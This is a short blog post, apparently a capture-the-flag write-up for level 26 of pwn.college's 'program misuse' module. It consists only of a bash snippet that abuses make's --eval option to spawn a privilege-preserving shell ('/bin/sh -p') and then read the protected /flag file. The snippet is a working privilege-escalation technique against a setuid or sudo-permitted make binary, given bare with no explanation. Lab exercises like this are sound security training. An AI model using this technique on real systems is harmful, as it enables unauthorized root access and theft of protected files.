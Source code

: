 ```yaml
---
layout: post
title: "Level 26"
date: 2024-4-10 12:00:00 -0000
categories: [pwn college, program misuse]
---
```


```bash
COMMAND='/bin/sh -p'
make -s --eval=$'x:\n\t-'"$COMMAND"
cat /flag
```